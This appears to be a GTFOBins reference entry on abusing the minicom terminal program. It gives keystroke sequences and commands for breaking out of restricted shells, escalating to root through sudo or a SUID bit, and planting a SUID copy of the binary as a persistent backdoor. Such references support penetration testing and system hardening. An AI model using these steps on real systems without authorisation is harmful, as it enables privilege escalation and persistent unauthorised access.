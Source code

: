 # GTFOBin: minicom

Note that in some versions, `Meta-Z` is used in place of `Ctrl-A`.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Start the following command to open the TUI interface, then:

1. press `Ctrl-A o` and select `Filenames and paths`;
2. press `e`, type `/bin/sh`, then `Enter`;
3. Press `Esc` twice;
4. Press `Ctrl-A k` to drop the shell.
After the shell, exit with `Ctrl-A x`.

```
minicom -D /dev/null
```

After the shell, exit with `Ctrl-A x`.

```
TF=$(mktemp)
echo "! exec /bin/sh <$(tty) 1>$(tty) 2>$(tty)" >$TF
minicom -D /dev/null -S $TF
reset^J
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Start the following command to open the TUI interface, then:

1. press `Ctrl-A o` and select `Filenames and paths`;
2. press `e`, type `/bin/sh -p`, then `Enter`;
3. Press `Esc` twice;
4. Press `Ctrl-A k` to drop the shell.
After the shell, exit with `Ctrl-A x`.

```
sudo install -m =xs $(which minicom) .

./minicom -D /dev/null
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Start the following command to open the TUI interface, then:

1. press `Ctrl-A o` and select `Filenames and paths`;
2. press `e`, type `/bin/sh`, then `Enter`;
3. Press `Esc` twice;
4. Press `Ctrl-A k` to drop the shell.
After the shell, exit with `Ctrl-A x`.

```
sudo minicom -D /dev/null
```